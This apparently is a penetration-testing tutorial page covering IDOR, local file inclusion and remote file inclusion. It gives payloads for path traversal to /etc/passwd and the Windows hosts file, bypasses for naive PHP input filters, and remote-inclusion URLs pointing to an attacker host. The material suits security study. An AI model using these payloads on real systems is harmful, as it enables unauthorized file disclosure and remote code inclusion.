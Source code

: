 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Broken Access Control

Users can act outside of their intended permissions,  typically leading to unauthorized information disclosure, modification, or destruction of data. The most common ways in which it's presented are:

* **IDOR:** Insecure Direct Object Reference, when an application fails to secure access to restringed data to a user.
* **Weak authorization:** Fail to protect sensitive content. For example, secure the admin page with a readable cookie.
* **Security through obscurity:** Try to hide secret information in paths that seem not to be visible.
* **File Inclusion:** Setting routes via URL to access system files or redirecting to other pages.

We can find a typical example of this vulnerability as follows:

* URL contains an enumeration of internal objects.

{% code overflow="wrap" lineNumbers="true" %}
```bash
#It is searching for an object with id=2
http://$url/id/2
#We can assume that existing id=1 or any number and try to get it
http://$url/id/$number #This could show objects normally hidden from the user
```
{% endcode %}

## <mark style="color:purple;">Local File Inclusion</mark>

Also known as LFI, when an attacker can get a website to include a file that was not intended to be an option for this application.

Following we find a typical process for leveraging this vulnerability:

* Check if parameters in the URL receive the name of a file

{% code overflow="wrap" lineNumbers="true" %}
```bash
#It's searching for a file
http://$url/$query?$param=hola.php
#We can try to access the system files
http://$url/$query?$param=/etc/passwd
```
{% endcode %}

***

* When this doesn't work directly, we can try to get to the root folder

{% tabs %}
{% tab title="On Linux server" %}
{% code overflow="wrap" lineNumbers="true" %}
```bash
#We use ../ to get to the root directory
http://$url/$query?$param=../../../../../etc/passwd
```
{% endcode %}
{% endtab %}

{% tab title="On Windows server" %}
{% code overflow="wrap" lineNumbers="true" %}
```bash
#We use ../ to get to the root directory
http://$url/$query?$param=../../../../../../WINDOWS/system32/drivers/etc/hosts
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% hint style="info" %}
It is useful to put as many `../` as possible to get to the root folder
{% endhint %}

***

* In some cases, we can check the page code to see the conditions of the input.

{% tabs %}
{% tab title="Case 1" %}
The code is searching for a file whose name starts with _file_

{% code title="Example source code" %}
```php
...
$file = str_replace( array( "../", "..\\" ), "", $file );
...
```
{% endcode %}

We can use the `\` to bypass this verification

```bash
http://$url/$query?$param=..\/..\/..\/..\/etc/passwd
```

Also if we use `..././` the code will do the replacement and leave us anyway with `../`, and we will also bypass this verification

```bash
http://$url/$query?$param=..././..././..././..././etc/passwd
```
{% endtab %}

{% tab title="Case 2" %}
The code is searching for a file whose name starts with _file_

{% code title="Example source code" overflow="wrap" lineNumbers="true" %}
```php
...
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
...
```
{% endcode %}

We can set our input to start with _file_ to bypass this verification

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/$query?$param=file/../../../../etc/passwd
```
{% endcode %}
{% endtab %}
{% endtabs %}

## <mark style="color:purple;">Remote File Inclusion</mark>

Also known as RFI, an attacker can redirect actions to or from another server.

Following we find a typical process for leveraging this vulnerability:

* Redirect actions of a server via URL parameters

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#It's searching for a file
http://$url/$query?$param=hola.php
<strong>#We can do a redirection to another site
</strong>http://$url/$query?$param=http://$url
#Or a redirection to a local server
http://$url/$query?$param=//$myip
</code></pre>

***

* In some cases, we can check the page code to see the conditions of the input.

{% tabs %}
{% tab title="Case 1" %}
We find that the code is blocking the connection through the HTTP protocol

{% code title="Example source code" overflow="wrap" lineNumbers="true" %}
```php
...
$file = str_replace( array( "http://", "https://" ), "", $file );
...

```
{% endcode %}

In this case, we can try to use another connection protocol

```bash
http://$url/$query?$param=php://filter/resource=/etc/passwd
```

Also if we use `hthttp://tp://` the code will do the replacement and leave us anyway with `http://`, and we will also bypass this verification

```bash
http://$url/$query?$param=hthttp://tp://$url
```
{% endtab %}
{% endtabs %}
